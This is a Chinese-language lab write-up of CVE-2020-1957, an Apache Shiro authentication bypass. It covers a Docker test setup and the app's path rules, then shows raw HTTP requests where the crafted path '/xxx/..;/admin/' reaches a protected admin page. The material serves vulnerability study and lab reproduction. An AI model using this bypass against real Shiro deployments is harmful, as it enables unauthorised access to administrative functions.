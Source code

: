 # Apache Shiro 认证绕过漏洞 CVE-2020-1957

## 漏洞描述

Apache Shiro是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。

在Apache Shiro 1.5.2以前的版本中，在使用Spring动态控制器时，攻击者通过构造`..;`这样的跳转，可以绕过Shiro中对目录的权限限制。

参考链接：

- https://github.com/apache/shiro/commit/3708d7907016bf2fa12691dff6ff0def1249b8ce#diff-98f7bc5c0391389e56531f8b3754081aL139
- https://xz.aliyun.com/t/8281
- https://blog.spoock.com/2020/05/09/cve-2020-1957/

## 环境搭建

Vulhub执行如下命令启动一个搭载Spring 2.2.2与Shiro 1.5.1的应用：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看首页。

这个应用中对URL权限的配置如下：

```
@Bean
public ShiroFilterChainDefinition shiroFilterChainDefinition() {
    DefaultShiroFilterChainDefinition chainDefinition = new DefaultShiroFilterChainDefinition();
    chainDefinition.addPathDefinition("/login.html", "authc"); // need to accept POSTs from the login form
    chainDefinition.addPathDefinition("/logout", "logout");
    chainDefinition.addPathDefinition("/admin/**", "authc");
    return chainDefinition;
}
```

## 漏洞复现

直接请求管理页面`/admin/`，无法访问，将会被重定向到登录页面：

```
GET /admin HTTP/1.1
Host: your-vps-ip:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20220301100715129](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011007191.png)

构造恶意请求`/xxx/..;/admin/`，即可绕过权限校验，访问到管理页面：

```
GET /xxx/..;/admin/ HTTP/1.1
Host: your-vps-ip:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20220301100858801](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011008871.png)




